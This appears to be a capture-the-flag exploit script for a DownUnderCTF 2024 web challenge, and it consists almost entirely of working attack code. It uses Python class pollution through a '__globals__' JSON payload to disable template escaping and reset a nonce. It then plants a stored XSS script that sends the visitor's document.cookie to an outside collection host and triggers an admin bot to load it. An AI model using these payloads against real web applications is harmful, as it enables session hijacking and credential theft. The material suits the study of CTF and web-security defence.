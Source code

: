 ### Exploit Code    
```python
import requests

url = "https://web-co2v2-cd93cd63acfba451.2024.ductf.dev"

token = ".eJwljk2KAkEMRq8iWYsk1ZX66UN4gUGkkkrGgR6ErpZZiHe3ZVaPj_ct3hOuvrRxswHz1xMO2w74tTHat8ERzvft0Jbl_mf9BJfX5bjfVxs3mLf1Yfv66TCDOxZSco-ds1KzGkrlUpwyGnZUoUQqZjzlGDm1MgmFnEKXQsaEgrUiJ_bSc52y5mhFqqrmGjpOoQXhGJNGdBES-cjUnNXZSv2EXh_D1v8agtcbOHQ-5g.ZopGIw.SDCkylqC_IeExFrSEEYbM8NHUl0"

r = requests.post(
    f"{url}/save_feedback",
    cookies={"session": token},
    json={
        "title": "asdf", 
        "content": "asdf", 
        "rating": "12", 
        "referred": "asdf",
        "__class__": {"__init__": {"__globals__": {"TEMPLATES_ESCAPE_ALL": False, "SECRET_NONCE":"", "RANDOM_COUNT":0}}}
    }
)
print(r.text) 

r = requests.post(
    f"{url}/admin/update-accepted-templates",
    cookies={"session": token},
    json={
        "policy":"strict"
    }
)

print(r.text) 

nonce = "8a5edab282632443219e051e4ade2d1d5bbc671c781051bf1437897cbdfea0f1"

r = requests.post(
    f"{url}/create_post", 
    cookies={"session": token},
    data={
        "title": f"""<script nonce="{nonce}">/*""",  
        "content": f"""*/fetch("https://frsfggq.request.dreamhack.games/?c="+document.cookie)</script>""",
        "public": 1
    }
)

print(r.text)

# bot
r = requests.get(
    f"{url}/api/v1/report",
    cookies={"session": token}
)
print(r.text) 
```    
      